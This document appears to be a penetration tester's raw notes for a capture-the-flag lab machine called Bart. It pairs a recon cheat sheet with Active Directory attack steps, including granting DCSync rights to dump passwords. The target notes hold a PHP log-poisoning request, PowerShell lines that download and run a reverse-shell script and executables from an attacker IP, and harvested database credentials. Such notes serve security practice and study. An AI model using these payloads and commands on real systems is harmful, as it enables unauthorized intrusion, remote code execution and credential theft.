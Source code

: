 ## Basic commands

```
# Extract VPN IP - $attack
attack=$(ip a show dev tun1 | egrep -o '[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}\.[0-9]{1,3}')

# Config TMUX
tmux setenv TARGET $TARGET && export TARGET=$TARGET
tmux setenv attack $attack && export attack=$attack

# Scan open ports
TCPports=$(sudo nmap -Pn -p- -T4 $TARGET -oA nmap/TCPports -v | egrep "^[0-9]{2,5}" | sed -E "s#/.*##g" | tr "\n" "," | sed 's/.$//') && echo $TCPports
UDPports=$(sudo nmap -T5 -Pn -sU $TARGET -oA nmap/UDPports -v | egrep "^[0-9]{2,5}" | sed -E "s#/.*##g" | tr "\n" "," | sed 's/.$//') && echo $UDPports

# Scan services of open ports
sudo nmap -Pn -p$TCPports -sS -sV -sC -PA $TARGET -oA nmap/Tserv
sudo nmap -Pn -p$UDPports -sS -sV -sC -sU $TARGET -oA nmap/Userv
-PA: TCP ACK ping

# Basic directory fuzzyng
gobuster dir -u http://$TARGET -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x eXt,eXt,eXt -k -o gobuster.txt
png,jpg,config,html,asp,aspx,php,php5,xml,htm,exe

# Modify hosts file
sudo sed -i "/$TARGET      domain/d" /etc/hosts
echo "$TARGET      domain" | sudo tee -a /etc/hosts
```

[] Mount points
[] SMB
[] DNS
[] ftp
[] http enum
    [] folders 
    [] files -x txt,php,html
[] run as admin
[] cron jobs
[] SQL injection
[] Windows suggestor
[] Upload to target
    [] linpeas
    [] pspy

AD
    [] domain name
    [] find users rpcclient -U "" -N $TARGET
    [] kerberos pre authentication disabled (https://github.com/ropnop/kerbrute/releases/tag/v1.0.3 + getPNusers.py (impatck))
    [] net user /domain
    [] net user username
    [] write privileges writeDACL (Bloodhound/sharphound)
        [] create user + add user to group with writedacl + give dsync privilege + dump passwords
        net user USERNAME PASSWORD /add /domain
        net group "GROUP NAME" /add USERNAME
        pass + cred + Add-ObjectACL -PrincipalIdentity USER -Credential -Rights DCSync

How many ports?

Versions?

Paths of URL?

Known CVE

http://forum.bart.htb/
Port TCP: 80

http://10.129.96.185/monitor/
PHP Server Monitor v3.2.1

monitor/compose.json
/monitor/config.php
Proudly powered by WordPress | Theme: Sydney by aThemes | Adapted and modified by BART.

Samantha Brown
Daniel Simmons
Robert Hilt
Daniella Lamborghini
Harvey Potter
Developer@BART<

daniel
harvey


s.brown@bart.htb
d.simmons@bart.htb
r.hilt@bart.htb

JQuery, MetaGenerator[WordPress 4.8.2], Microsoft-IIS[10.0], PoweredBy[WordPress], Script[text/javascript], Title[BART], WordPress[4.8.2]

curl -X POST http://internal-01.bart.htb/simple_chat/register.php -d "uname=pat&passwd=12345678"
http://internal-01.bart.htb/log/log.php?filename=log.txt&username=harvey

http://internal-01.bart.htb/#

GET /log/log.php?filename=log.php&username=bobby HTTP/1.1
Host: internal-01.bart.htb
User-Agent: <?php phpinfo();?>
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=pe24k9ekis4lf1v3men41v4jic
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.220:8081/Invoke-PowerShellTcp.ps1')

powershell+IEX(New-Object+Net.WebClient).downloadString('http://10.10.14.220:8081/Invoke-PowerShellTcp.ps1')


powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.220:8081/shell.exe')

powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.14.220:8081/winpeas.exe')

Invoke-Webrequest -OutFile winpeas.exe http://10.10.14.220:8081/winpeas.exe

kubectl debug node/aks-main-27985587-vmss000001 -it --image=mcr.microsoft.com/cbl-mariner/busybox:2.0


define('PSM_DB_NAME', 'sysmon');
define('PSM_DB_USER', 'daniel');
define('PSM_DB_PASS', '?St4r1ng1sCr33py?');

Name
----
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
enumdesktops


[+] 10.129.96.185 - exploit/windows/local/cve_2020_1048_printerdemon: The target appears to be vulnerable.
[+] 10.129.96.185 - exploit/windows/local/cve_2020_1337_printerdemon: The target appears to be vulnerable.
[+] 10.129.96.185 - exploit/windows/local/ms16_075_reflection: The target appears to be vulnerable.
[+] 10.129.96.185 - exploit/windows/local/ms16_075_reflection_juicy: The target appears to be vulnerable.
[+] 10.129.96.185 - exploit/windows/local/tokenmagic: The target appears to be vulnerable.

